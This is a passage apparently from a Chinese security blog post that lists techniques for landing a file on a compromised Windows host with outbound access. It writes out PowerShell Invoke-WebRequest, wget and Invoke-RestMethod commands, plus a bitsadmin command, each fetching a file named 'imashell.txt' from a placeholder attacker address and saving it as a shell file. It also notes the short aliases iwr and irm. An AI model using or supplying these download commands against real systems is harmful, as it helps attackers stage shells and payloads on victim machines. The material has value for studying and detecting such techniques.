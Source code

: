   
  
**8.使用Powershell+Invoke-WebRequest.落地文件 （出网）**  
  
  
同样给出命令如下：  
  
powershell.exe -Command "Invoke-WebRequest -Uri 'http://ip/imashell.txt' -OutFile './  
shell.txt'"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrlbOHo147nOe0t2gjdf88nltA9hqgoficXbZT7qtZibH5Jq81XL8CBdkg/640?wx_fmt=png&from=appmsg "")  
  
此外比较有意思的一点在于，这个Invoke-WebRequest可以直接缩写为iwr，后面还会提到一个Invoke-RestMethod，可以缩写为iwm，我怀疑是不是Powershell所有Invoke-打头的都可以这么缩写  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrC56ibSGicjvIGKHCibeRicwO71tiaYhEKCQ594htiawebv2qw5TjFQqvPvnQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**9.使用Powershell+Wget落地文件（出网）**  
  
  
  
  
没错，Powershell里也有一个同名的wget command，玩法如下：  
  
powershell -Command "wget 'http://ip/imashell.txt' -OutFile './shell.txt'"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrXAUyKIYCCPgLcGEdAvVOsO26dJ075ibIDZ0Cg9RKKszsrHUYDwVLWmw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**10.使用Powershell+Invoke-RestMethod**  
  
  
  
  
命令如下：  
  
powershell.exe -Command "Invoke-RestMethod -Uri 'http://ip/imashell.txt' -OutFile './shell.txt'"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrFiaZwp9qwQqZyv0jUTX3dDBZ8ictxOpWJNIhGV9T7gicyZjzHQ33JM59Q/640?wx_fmt=png&from=appmsg "")  
  
（Invoke-RestMethod可以缩写为irm）  
  
上面我们就介绍完了用Powershell进行文件落地的几种姿势，仅作为抛砖引玉之用，感兴趣的读者还可以找找别的powershell的用法进行文件落地。  
  
  
  
  
**11. 使用Bitsadmin落地文件（出网）**  
  
  
  
  
给出命令如下：  
  
  
bitsadmin /transfer n http://ip/imashell.txt   
C:\test\shell.txt  
  
//注意后边必须写绝对路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrFv5SNNsQIM6wTh1dPibtt13jiapAEqeWC6ibfIU32s7nWoicQhN6GMCFibQ/640?wx_fmt=png&from=appmsg "")  
  